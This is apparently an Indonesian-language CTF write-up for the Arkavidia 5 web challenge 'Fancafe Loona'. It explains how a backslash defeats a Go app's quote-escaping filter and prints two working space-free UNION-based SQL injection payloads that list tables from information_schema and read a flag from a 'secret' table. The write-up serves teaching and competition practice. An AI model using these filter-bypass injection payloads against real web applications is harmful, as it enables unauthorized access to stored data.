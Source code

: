 ```yaml
---
comments: true
title: 'Arkavidia 5: Fancafe Loona'
date: 2019-02-13 17:00:00 +0000
category:
- Ctf
tags:
- Arkavidia
private: false

---
```

### Fancafe Loona - Web

Diberikan website menggunakan `go` yang mempunyai fitur untuk mencari post dan melihat detail dari post, dengan route sebagai berikut.

![](/uploads/Capture.PNG)

Kita juga diberikan akses terhadap source codenya yang bisa digunakan untuk memudahkan kita menemukan entrypoint eksploitasi pada aplikasi tersebut, dan ditemukan aplikasi sudah mengimplementasikan proteksi terhadap serangan SQL Injection.

  
![](/uploads/Capture-1.PNG)

Namun sayang nya filter tersebut belum cukup untuk mengamankan dari serangan `SQL Injection` karena dapat di bypass dengan memanfaatkan backslash `\` .

> '  => \\'
>
> \\' => \\\\'

Dengan menggunakan `\'` kita dapat melakukan bypass terhadap filter tersebut, kemudian lakukan union dengan normal namun tanpa menggunakan spasi.

Menggunakan payload berikut kita dapat memunculkan list table yang ada melalui information_schema.

    TESTING\')and(1)=(0)union(select(1),1,1,1,table_name,1,(1)from(information_schema.tables)where(table_schema)!=(0x696e666f726d6174696f6e5f736368656d61))#

![](/uploads/Capture-2.PNG)

Kemudian fetch flag dari table secret dengan payload `TESTING\')and(1)=(0)union(select(1),1,1,1,flag,1,(1)from(secret))#`

![](/uploads/Capture-3.PNG)